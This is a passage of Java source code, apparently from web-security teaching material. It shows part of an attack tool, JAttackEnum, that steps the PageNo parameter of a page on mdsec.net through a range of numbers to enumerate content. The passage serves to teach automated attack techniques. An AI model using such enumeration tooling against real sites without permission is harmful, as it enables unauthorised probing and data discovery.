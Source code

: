   ```java
          this.from = from;
          this.to = to;
          this.step = step;
          reset();
      }
  
      public boolean nextPayload()
      {
          current += step;
          return current <= to;
      }
  
      public void reset()
      {
          current = from - step;
      }
  
      public String getPayload()
      {
          return Integer.toString(current);
      }
  }
  
  public class JAttackEnum
  {
      // attack config
      String host = "mdsec.net";
      int port = 80;
      String method = "GET";
      String url = "/app/ShowPage.ashx";
      Param[] params = new Param[]
      {
          new Param("PageNo", "10069", Param.Type.URL, true),
      };
      PayloadSource payloads = new PSNumbers(10060, 10080, 1);
  
      // attack state
      int currentParam = 0;
  
      boolean nextRequest()
      {
          if (currentParam >= params.length)
              return false;
  
          if (!params[currentParam].attack)
          {
              currentParam++;
              return nextRequest();
          }
  
          if (!payloads.nextPayload())
          {
              payloads.reset();
              currentParam++;
              return nextRequest();
          }
  
          return true;
      }
  
      String buildRequest()
      {
          // build parameters
  ```